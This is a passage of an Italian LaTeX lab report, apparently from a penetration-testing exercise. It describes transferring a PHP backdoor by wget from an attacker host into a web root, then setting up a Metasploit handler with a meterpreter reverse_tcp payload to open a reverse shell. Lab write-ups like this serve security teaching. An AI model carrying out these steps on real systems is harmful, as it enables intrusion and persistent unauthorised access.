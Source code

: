 \documentclass[a4paper, 12pt, oneside]{article}
\begin{document}
dove \texttt{8084} è la porta in cui il server accetterà connessioni. Questo comando va eseguito nella stessa cartella dove è presente il payload.

Per quanto riguarda invece la \texttt{(2)}, avendo già a disposizione la shell di root nell'asset, è sufficiente spostarsi nella directory \texttt{/var/www/html/} e lanciare il comando

\begin{center}
    \texttt{wget 192.168.64.23:8084/useful\_app.php}
\end{center}

\begin{figure}[h!]
    \centering
    \includegraphics[width=\textwidth]{img/wget.png}
    \caption{Trasferimento della backdoor}
\end{figure}

\subsection{Creazione dell'handler}
A questo punto, è necessario creare l'handler che si metterà in ascolto sulla macchina Kali. Il modulo di Metasploit di riferimento è il generico \texttt{exploit/multi/handler} ed utilizza come payload \texttt{php/meterpreter/reverse\_tcp}. Essendo questo un contesto \textbf{reverse} è necessario specificare solamente il parametro \texttt{LHOST}, che deve contenere l'indirizzo della macchina dell'attaccante. 

\subsection{Esecuzione della backdoor}

L'attivazione della backdoor avviene in tre step:

\begin{enumerate}
    \item L'handler viene attivato mediante il comando \texttt{run};
    \item Il web server su cui è stata caricata la backdoor viene contattato dall'esterno mediante richiesta a \texttt{http://192.168.64.21/useful\_app.php};
    \item Il web server contatta a sua volta la macchina Kali e riceve la seconda parte del payload per la successiva apertura della reverse shell.
\end{enumerate}
\end{document}

